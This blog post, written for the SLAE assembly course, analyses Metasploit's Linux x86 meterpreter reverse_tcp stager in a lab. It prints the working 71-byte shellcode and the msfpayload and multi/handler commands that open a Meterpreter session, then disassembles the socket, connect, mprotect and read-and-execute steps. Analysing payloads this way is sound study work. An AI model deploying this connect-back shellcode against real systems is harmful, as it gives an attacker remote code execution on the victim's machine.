 ```yaml
---
title:  "[SLAE 5] Metasploit meterpreter/reverse_tcp Shellcode"
---
```


![Logo](/assets/images/tux-root.png)

This post is part of the 5th assignment of the [SLAE course](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) and will analyse another Metasploit shellcode: **_meterpreter/reverse_tcp_**. First we'll check the description of this shellcode: 
```bash
# msfpayload linux/x86/meterpreter/reverse_tcp S
 
       Name: Linux Meterpreter, Reverse TCP Stager
     Module: payload/linux/x86/meterpreter/reverse_tcp
    Version: 0
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 178
       Rank: Normal
 
Provided by:
  PKS
  egypt <egypt@metasploit.com>
  skape <mmiller@hick.org>
 
Basic options:
Name          Current Setting  Required  Description
----          ---------------  --------  -----------
DebugOptions  0                no        Debugging options for POSIX meterpreter
LHOST                          yes       The listen address
LPORT         4444             yes       The listen port
PrependFork                    no        Add a fork() / exit_group() (for parent) code
 
Description:
  Connect back to the attacker, Staged meterpreter server
```

To test it, we'll insert the 1st stage payload into the skeleton tester file: 
```bash
# msfpayload linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 C
```

```c
/*
 * linux/x86/meterpreter/reverse_tcp - 71 bytes (stage 1)
 * http://www.metasploit.com
 * VERBOSE=false, LHOST=192.168.56.101, LPORT=4444, 
 * ReverseConnectRetries=5, ReverseAllowProxy=false, 
 * EnableStageEncoding=false, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, AutoLoadStdapi=true, 
 * InitialAutoRunScript=, AutoRunScript=, AutoSystemInfo=true, 
 * EnableUnicodeEncoding=true, PrependFork=false, 
 * DebugOptions=0
 */
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89\xe1\xcd\x80"
"\x97\x5b\x68\xc0\xa8\x38\x65\x68\x02\x00\x11\x5c\x89\xe1\x6a"
"\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\xb2\x07\xb9\x00\x10"
"\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80\x5b"
"\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80\xff\xe1";
 
/*
 * linux/x86/meterpreter/reverse_tcp - 1126400 bytes (stage 2)
 * http://www.metasploit.com
 */
unsigned char buf[] = 
"\x7f\x45\x4c\x46\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x02\x00\x03\x00\x01\x00\x00\x00\x05\xfe\x04\x20\x34\x00"
[..]
```

We don't care about the 2nd stage because it will be transmitted to the client after connection. Then start a multi handler which will receive the connection and send the 2nd stage payload: 
```bash
msf exploit(handler) > show options 
 
Module options (exploit/multi/handler):
 
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
 
 
Payload options (linux/x86/meterpreter/reverse_tcp):
 
   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DebugOptions  0                no        Debugging options for POSIX meterpreter
   LHOST         192.168.56.101   yes       The listen address
   LPORT         4444             yes       The listen port
 
msf exploit(handler) > exploit -j -z
```

We send the compiled stage 1: 
```bash
$ ./shellcode
Shellcode Length:  24 bytes
(Shellcode contains null bytes)
```

And we get in the handler: 
```bash
msf exploit(handler) > 
[*] Transmitting intermediate stager for over-sized stage...(100 bytes)
[*] Sending stage (1126400 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.1:33626) at 2013-07-21 21:21:08 +0100
 
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...
 
meterpreter > getuid 
Server username: uid=1000, gid=1000, euid=1000, egid=1000, suid=1000, sgid=1000
```

So the shellcode is working as expected. We proceed to analyse the payload with the shellcode tester from [libemu](https://www.aldeid.com/wiki/Libemu):
```bash
# msfpayload linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 R > shellcode.bin
# ls -al shellcode.bin 
-rwxrwx--- 1 root vboxsf 71 Jul 21 21:25 shellcode.bin
(71 bytes. It's stage 1)
$ cat shellcode.bin | /opt/libemu/bin/sctest -vvv -S -s 1000 -G shellcode.dot
```

And there's the first part of the shellcode that it was possible to be decoded by the emulator: 
```c
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 1698212032 (host=192.168.56.101);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
```

Here we see clearly the initial syscalls and their parameters. We can also view the same information graphically: 
```bash
$ dot shellcode.dot -T png -o shellcode.png
```

[![](/assets/images/libemu2-small.png)](/assets/images/libemu2.png)

Finally we'll manually analyse the shellcode to understand the complete functionality. To disassemble it: 
```bash
$ echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89\xe1\xcd\x80\x97\x5b\x68\xc0\xa8\x38\x65\x68\x02\x00\x11\x5c\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\xb2\x07\xb9\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80\xff\xe1" | ndisasm -b 32 -
```

The first operation is, as we've seen previously, a socket call: 
```c
; man 2 socket
; int socket(int domain, int type, int protocol);
; Parameters can be viewed with strace commnad
; socket(PF_INET, SOCK_STREAM, IPPROTO_IP)
00000000  31DB              xor ebx,ebx         ; Zero out ebx
00000002  F7E3              mul ebx             ; Zero out eax
00000004  53                push ebx            ; Protocol - IPPROTO_IP (0) 
00000005  43                inc ebx             ; int call - SYS_SOCKET (1)
00000006  53                push ebx            ; Type - SOCK_STREAM (1)
00000007  6A02              push byte +0x2      ; Domain - AF_INET (2)
00000009  B066              mov al,0x66         ; sys_socketcall
0000000B  89E1              mov ecx,esp         ; Parameters
0000000D  CD80              int 0x80            ; Fire up the interrupt
```

Next is the connect call, which was also executed by the emulator: 
```c
; connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("192.168.56.101")}, 102)
0000000F  97                xchg eax,edi        ; fd is returned, then stored into edi
00000010  5B                pop ebx             ; ebx is 2
00000011  68C0A83865        push dword 0x6538a8c0
00000016  680200115C        push dword 0x5c110002
0000001B  89E1              mov ecx,esp
0000001D  6A66              push byte +0x66     ; sys_socketcall
0000001F  58                pop eax
00000020  50                push eax
00000021  51                push ecx
00000022  57                push edi            ; push first param - the fd
00000023  89E1              mov ecx,esp
00000025  43                inc ebx             ; int call - SYS_CONNECT (3)
00000026  CD80              int 0x80
```

Next operations were not executed by the emulator. Following is an _`mprotect`_ call, which sets protection on a region of memory. The function has the following syntax: 
```c
int mprotect(const void *addr, size_t len, int prot);
```

The parameters of the call can be easily viewed with the _`strace`_ utility:
```c
mprotect(0xbff7e000, 4096, PROT_READ|PROT_WRITE|PROT_EXEC) = 0
```

The defines have the following values:
```
PROT_READ 0x1 
PROT_WRITE 0x2 
PROT_EXEC 0x4 
```

And if we verify with the assembly code: 
```c
00000028  B207              mov dl,0x7          ; PROT_READ|PROT_WRITE|PROT_EXEC
0000002A  B900100000        mov ecx,0x1000      ; 4096
0000002F  89E3              mov ebx,esp
00000031  C1EB0C            shr ebx,0xc
00000034  C1E30C            shl ebx,0xc
00000037  B07D              mov al,0x7d         ; sys_mprotect
00000039  CD80              int 0x80
```

The final part of the shellcode is, as expected, the read call, which will get the 2nd stage payload from the server, and then execute it: 
```c
; man 2 read
; read - read from a file descriptor
; ssize_t read(int fd, void *buf, size_t count);
0000003B  5B                pop ebx             ; fd to read from; pushed at 'push edi' line
0000003C  89E1              mov ecx,esp         ; buffer
0000003E  99                cdq
0000003F  B60C              mov dh,0xc          ; count - a lot of data to be read...
00000041  B003              mov al,0x3          ; sys_read
00000043  CD80              int 0x80
00000045  FFE1              jmp ecx             ; the buffer thathas been read. execute it
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**

